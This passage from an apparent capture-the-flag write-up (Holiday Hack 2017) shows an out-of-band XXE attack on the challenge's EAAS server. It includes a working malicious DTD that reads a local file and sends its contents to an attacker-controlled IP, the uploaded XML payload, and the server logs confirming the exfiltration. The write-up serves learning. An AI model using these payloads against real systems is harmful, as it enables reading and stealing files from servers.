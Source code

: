 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://203.59.106.231:9002/?%stolendata;'>">
```

Note that under the `5stolendata` function that would be invoked by `%inception` I had the file path for the **greatbook.txt**

I served up this file over a `Python SimpleHTTPServer` session on `port 9002`

```bash
$ python -m SimpleHTTPServer 9002
Serving HTTP on 0.0.0.0 port 9002 ...
```

I then created a new replacement `Elfdata.xml` file with the following contents and uploaded it to the EAAS browse field

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
     <!ELEMENT demo ANY >
     <!ENTITY % extentity SYSTEM "http://203.59.106.231:9002/evil.dtd">
     %extentity;
     %inception;
     %sendit;
      ]
>
```

I confirmed the successful POST via OWASP ZAP

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge05-xml-upload.jpg" />

The upload also resulted in two requests hitting my HTTP server

* One downloaded evil.dtd
* The other appended the contents of C:\greatbook.txt to a GET request

```bash
$ python -m SimpleHTTPServer 9002

Serving HTTP on 0.0.0.0 port 9002 ...
35.185.118.225 - - [09/Jan/2018 20:33:29] "GET /evil.dtd HTTP/1.1" 200 -
35.185.118.225 - - [09/Jan/2018 20:33:30] "GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1" 200 -
```

Navigating to http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf resulted in the successful aquisition of **[GreatBookPage6.pdf](/misc/2017/12/GreatBookPage6.pdf)**

The tile of the newly found page was **The Dreaded Inter-Dimensional Tornadoes**

**References:**

[Exploiting XXE Vulnerabilities in IIS/.NET](https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities)
